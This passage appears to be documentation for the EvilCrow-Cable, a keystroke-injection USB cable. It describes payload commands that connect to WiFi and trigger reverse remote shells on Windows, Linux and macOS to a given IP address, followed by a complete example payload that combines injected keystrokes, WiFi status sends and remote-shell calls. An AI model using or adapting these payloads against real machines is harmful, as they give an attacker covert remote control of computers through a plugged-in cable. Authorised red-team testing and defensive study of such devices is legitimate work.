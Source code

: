 #### **WIFI_CONNECT** - Connect to WiFi Network
```bash
WIFI_CONNECT MyNetwork MyPassword
```
Connects to a WiFi network using the specified SSID and password.

#### **SHELLWIN** - Windows Remote Shell
```bash
SHELLWIN 192.168.1.100
```
Triggers a Windows remote shell connection to the specified IP address.

#### **SHELLNIX** - Linux Remote Shell
```bash
SHELLNIX 192.168.1.101
```
Triggers a Linux remote shell connection to the specified IP address.

#### **SHELLMAC** - macOS Remote Shell
```bash
SHELLMAC 192.168.1.102
```
Triggers a macOS remote shell connection to the specified IP address.

### Example EvilCrow-Cable Payload

```bash
# EvilCrow-Cable Advanced Payload Example
ATTACKMODE HID WIFI
DELAY 2000

# Basic HID operations
STRING Hello from EvilCrow-Cable!
ENTER
DELAY 1000

# WiFi operations
WIFI_SEND Status: Device connected
DELAY 500
WIFI_CONNECT MyNetwork MyPassword
DELAY 2000

# Remote shell operations
SHELLWIN 192.168.1.100
DELAY 1000
SHELLNIX 192.168.1.101
DELAY 1000

# Key management
CTRL
SHIFT
DELAY 500
RELEASE
DELAY 500

# Final message
STRING EvilCrow-Cable payload completed!
ENTER
```
